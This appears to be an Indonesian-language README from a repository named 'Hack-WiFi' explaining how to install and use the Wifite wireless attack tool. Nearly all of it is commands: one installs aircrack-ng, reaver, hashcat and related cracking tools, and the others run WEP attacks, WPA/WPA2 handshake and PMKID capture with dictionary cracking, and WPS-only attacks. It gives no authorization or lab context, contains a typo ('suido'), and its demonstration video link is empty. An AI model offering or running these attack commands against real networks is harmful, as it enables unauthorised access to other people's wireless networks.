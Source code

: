 # Wifite

![Wifite](https://github.com/fixploit03/Hack-WiFi/blob/main/tools/wifite/img/wifite%20logo.jpg)

## Instalasi

Kali Linux

Mengguakan packet manager (`apt`):

```
sudo apt-get update
sudo apt-get install python3 net-tools ieee-data aircrack-ng reaver tshark macchanger bully  cowpatty hashcat hashcat-data john john-data hcxdumptool hcxtools wifite
```

## Penggunaan

### 1. WEP

```
suido wifite --kill -i [interface] --wep --require-fakeauth --keep-ivs
```

### 2. WPA/WPA2-PSK

1. Capture Handshake

   ```
   sudo wifite --kill -i [interface] --wpa --no-pmkid --dict [wordlist]
   ```
2. Capture PMKID

   ```
   sudo wifite --kill -i [interface] --wpa --pmkid --dict [wordlist]
   ```

### 3. WPA/WPA2-PSK (WPS)

```
sudo wifite --kill -i [interface] --wpa --no-pmkid --wps --wps-only
```

## Video Demonstrasi:

Link: [ini]()
